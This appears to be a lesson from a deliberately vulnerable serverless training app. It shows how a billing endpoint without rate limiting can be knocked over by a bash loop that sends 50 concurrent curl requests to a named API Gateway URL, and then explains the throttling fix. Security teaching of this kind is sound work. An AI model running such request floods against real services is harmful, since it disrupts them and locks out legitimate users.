

# Lesson 6: Denial of Service (DoS)

## What is this?
The billing endpoint has no rate limiting. Sending 50 requests at the same time overwhelms the service and blocks real users.

## How to attack
we set the API URL and token:
```bash
export API="https://nuxbyqip03.execute-api.us-east-1.amazonaws.com/Stage/order"
export TOKEN= #we add the token 
```

we create an order and add shipping then run the flood:
```bash
for i in $(seq 1 50); do
  curl -s -o /dev/null -w "%{http_code}\n" "$API" \
    -H "content-type: application/json" \
    -H "authorization: $TOKEN" \
    -d '{"action":"orders"}' &
done
wait
```

## What we see
Mass 500 errors the service is overwhelmed and crashes.


## Fix applied
Added throttling in API Gateway:
- Go to API Gateway → DVSA-APIS → Stages → Stage
- Set Rate: 10 requests/second, Burst: 20
- Created a Usage Plan with Rate: 10, Burst: 5, Quota: 1000/month



No code changes were needed, this is a configuration fix.


